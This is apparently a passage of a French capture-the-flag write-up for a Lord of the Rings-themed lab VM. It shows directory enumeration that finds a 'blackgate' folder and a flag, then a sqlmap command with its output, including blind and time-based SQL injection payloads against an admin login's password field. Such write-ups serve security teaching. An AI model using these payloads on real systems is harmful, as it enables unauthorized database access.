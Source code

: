 ```console
  $$$;    "^$$$$$^"   d$$     `T.d$$$$$P^"     $  $"""$ $"", $$$    T$b  d$$bd$b      d$b   "^TbsssP" 'T$bgd$P  
  $$$b.____.dP                                 $ .$. .$.$ss,d$$$b.   T$b.                                       
.d$$$$$$$$$$P  bug                                                    `T$b.                                     
                                                                        "^^"                                    

During the campaign at the fortress of helms deep,
you was choosen to steal Sauron's plans for the final war,
which covers middleearth with darkness.
Your mission is to give the plans to rohan, gondor and all those fighting against the dark kingdom of mordor.
These plans, will be an advantage for the case,
if frodo fails his mission to destroy the ring on mount doom.
You make the journey to mordor,
and you have arrived unnoticed the area of mordor.
```

Vu qu'il n'y a rien ici il fallait énumérer le port 80, mais le mot à trouver n'est ni dans la wordlist `big.txt` de *DirBuster* ni dans le `raft-large-words` de *FuzzDB*.

Ceux qui ont assez de temps à perdre auront le courage de se feindre d'un *rockyou*, bien que ça n'ait aucun sens, mais trouverons ainsi le dossier `blackgate` qui nous accueille avec ce message :

> Helms deep is fallen by the Orcs, Frodo is already on the journey to mordor. You have arrived the black gate of mordor. Still unnoticed you observe the situation. After a while you noticed, an another army near the black gate. The gate opens and all sentinels and soldiers observe the entire area. flag{bc6fd79cd1fa7ebbcd420cb45434d9a2b4d921a5}

On trouve une mire de login et cette dernière est vulnérable à une injection SQL que `sqlmap` détecte :

```bash
python sqlmap.py -u http://192.168.56.188/blackgate/admin/ --data "usr=dd&pwd=dd" --risk 3 --level 5
```

C'est le champ du mot de passe qui est vulnérable :

```
sqlmap identified the following injection point(s) with a total of 8605 HTTP(s) requests:
---
Parameter: pwd (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: usr=dd&pwd=-5569' OR 1720=1720-- TJlt

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usr=dd&pwd=dd' AND (SELECT 4174 FROM (SELECT(SLEEP(5)))gPvk)-- CYUj
---
[14:47:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```
